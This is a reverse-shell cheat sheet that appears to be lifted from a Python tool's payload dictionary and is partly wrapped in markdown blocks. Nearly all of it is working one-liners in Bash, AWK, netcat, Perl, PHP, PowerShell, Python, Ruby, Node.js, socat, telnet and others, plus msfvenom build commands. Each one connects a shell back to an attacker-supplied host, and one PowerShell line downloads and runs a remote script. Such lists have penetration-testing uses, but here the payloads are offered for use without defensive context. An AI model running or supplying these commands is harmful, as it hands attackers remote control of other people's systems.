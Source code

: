 # Spawning a shell

```bash
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f asp > revshell.asp' % (ipaddr, port),
```

```bash
# AWK
awk \'BEGIN {s = "/inet/tcp/0/%s/%d"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}\' /dev/null' % (ipaddr, port),
```

```bash
# Bash - Option 1
bash -i >& /dev/tcp/%s/%d 0>&1' % (ipaddr, port),
```

```bash
# Bash - Option 2
0<&196;exec 196<>/dev/tcp/%s/%d; bash <&196 >&196 2>&196' % (ipaddr, port),
```

```bash
# Bash - Option 3
exec 5<> /dev/tcp/%s/%d; cat <&5 | while read line; do $line 2>&5>&5; done' % (ipaddr, port),
```

'java':'r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/%s/%d;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();' % (ipaddr, port),
        'jsp':'msfvenom -p java/jsp_shell_reverse_tcp LHOST=%s LPORT=%d -f raw > revshell.jsp' % (ipaddr, port),
        'lin-bin':'msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f elf > revshell' % (ipaddr, port),
        'lua':'lua5.1 -e \'local host,port = \"%s\",%d local socket = require(\"socket\") local tcp = socket.tcp() local io = require(\"io\") tcp:connect(host,port); while true do local cmd,status,partial = tcp:receive() local f = io.popen(cmd,'r') local s = f:read(\"*a\") f:close() tcp:send(s) if status == \"closed\" then break end end tcp:close()\'' % (ipaddr, port),
        'nc':'nc -e /bin/sh %s %d' % (ipaddr, port),
        'nc-c':'nc -c /bin/sh %s %d' % (ipaddr, port),
        'nc-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %d >/tmp/f' % (ipaddr, port),
        'nc-mknod':'rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc %s %d 1>/tmp/l' % (ipaddr, port),
        'nc-pipe':'/bin/sh | nc %s %d' % (ipaddr, port),
        'ncat':'ncat %s %d -e /bin/sh' % (ipaddr, port),
        'nodejs':'(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(%d,"%s",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();' % (port, ipaddr),
        'osx-bin':'msfvenom -p osx/x86/shell_reverse_tcp LHOST=%s LPORT=%d -f macho > revshell.macho' % (ipaddr, port),
        'perl':'perl -e \'use Socket;$i="%s";$p=%d;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\'' % (ipaddr, port),
        'perl-2':'perl -MIO -e \'$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
        'perl-windows':'perl -MIO -e \'$c=new IO::Socket::INET(PeerAddr,"%s:%d");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;\'' % (ipaddr, port),
        'php':'php -r \'$sock=fsockopen("%s",%d);exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-2':'php -r \'$s=fsockopen("%s",%d);shell_exec("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-3':'php -r \'$s=fsockopen("%s",%d);`/bin/sh -i <&3 >&3 2>&3`;\'' % (ipaddr, port),
        'php-4':'php -r \'$s=fsockopen("%s",%d);system("/bin/sh -i <&3 >&3 2>&3");\'' % (ipaddr, port),
        'php-5':'php -r \'$s=fsockopen("%s",%d);popen("/bin/sh -i <&3 >&3 2>&3", "r");\'' % (ipaddr, port),
        'ps-tcp':'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient(\"%s\",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port),
        'ps-iex':'powershell IEX (New-Object Net.WebClient).DownloadString("http://%s:%d/revshell.ps1") \n\nMake a revshell.ps1 file and put it on your server!' % (ipaddr, port),
        'ps-b64':'powershell -e '+ b64encode(('$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' % (ipaddr, port)).encode('utf16')[2:]).decode(),
        'python':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\'' % (ipaddr, port),
        'python-2':'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")\'' % (ipaddr, port),
        'ruby':'ruby -rsocket -e\'f=TCPSocket.open(\"%s\",%d).to_i;exec sprintf(\"/bin/sh -i <&3 >&3 2>&3\",f,f,f)\'' % (ipaddr, port),
        'ruby-2':'ruby -rsocket -e \'exit if fork;c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'ruby-windows':'ruby -rsocket -e \'c=TCPSocket.new("%s","%d");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end\'' % (ipaddr, port),
        'socat':'socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:%s:%d \n\n[+] Catch incoming shell with:\n\nsocat file:`tty`,raw,echo=0 tcp-listen:%d' % (ipaddr, port, port),
        'tclsh':'echo \'set s [socket %s %d];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;\' | tclsh' % (ipaddr, port),
        'telnet':'rm -f /tmp/p; mknod /tmp/p p && telnet %s %d 0/tmp/p' % (ipaddr, port),
        'telnet-mkfifo':'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet %s %d > /tmp/f' % (ipaddr, port),
        'war':'msfvenom -p java/shell_reverse_tcp LHOST=%s LPORT=%d -f war -o revshell.war' % (ipaddr, port),
        'win-bin':'msfvenom -p windows/meterpreter/reverse_tcp LHOST=%s LPORT=%d -f exe > revshell.exe' % (ipaddr, port),
        'xterm':'xterm -display %s:1 \n\n[+] Connect to your shell with:\n\nXnest :1 or xhost +targetip' % (ipaddr)
    }

